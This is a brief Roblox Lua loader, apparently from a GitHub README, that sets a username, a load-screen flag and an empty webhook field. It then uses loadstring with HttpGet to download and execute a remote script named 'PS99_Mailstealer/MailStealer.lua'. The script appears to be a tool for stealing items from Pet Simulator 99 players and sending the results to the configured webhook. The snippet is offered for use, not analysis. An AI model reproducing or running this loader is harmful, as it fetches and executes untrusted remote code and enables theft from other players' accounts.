 Your username here| Username = "nick name"
LoadScreen = true 
Webhook = "" -- 

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
